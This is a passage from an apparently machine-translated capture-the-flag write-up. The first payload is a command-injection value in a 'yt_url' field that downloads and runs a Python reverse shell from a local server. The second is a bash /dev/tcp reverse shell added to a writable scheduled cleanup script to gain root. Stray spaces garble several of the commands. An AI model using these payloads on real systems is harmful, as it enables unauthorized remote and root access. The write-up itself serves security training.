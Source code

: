``` bash
python -m SimpleHTTTPServer 8080
```
Also, let's listen on port 1234 with netcat.

```
 nc -lvp 1234
```

Let's make a request to the server. The variable "data" will be ``` {'yt_url': '\ x3e`cd $ {IFS} / var / www / html / images /; wget $ {IFS} http://192.168.56.103:8080/rev. py; python $ {IFS} rev.py` '} ```.

I can't show it to you now, but we have a shell :)



in the folder / var / www / html / admin there is a flag with the value ``` flag {0d8486a0c0c42503bb60ac77f4046ed7} ```

***USER FLAG EARNED***
Now it remains to get the root flag. We have rights to directories only in / tmp and in the aforementioned / var / www / html / images. In the tmp directory, however, we see a clean.sh script

```
$ cat clean.sh
rm -rf downloads
```
This script only does what it does is delete the downloads folder. But we see after executing ``` ls -la``` that we got write access to it. This is an example of a script that seems to be scheduled now and then.
Let's edit it to have a reverse shell as well, this time we'll create it in bash.
We will take the script from pentestmonkey.com again.
We add to the script
```
bash -i> & /dev/tcp/10.0.0.1/8080 0> & 1
```
After listening to the port again, we manage to get to the shell with root privileges.
In the / root directory there is a root.txt file with the flag ``` flag {d9b368018e912b541a4eb68399c5e94a} ```

***ROOT FLAG CAPTURED***
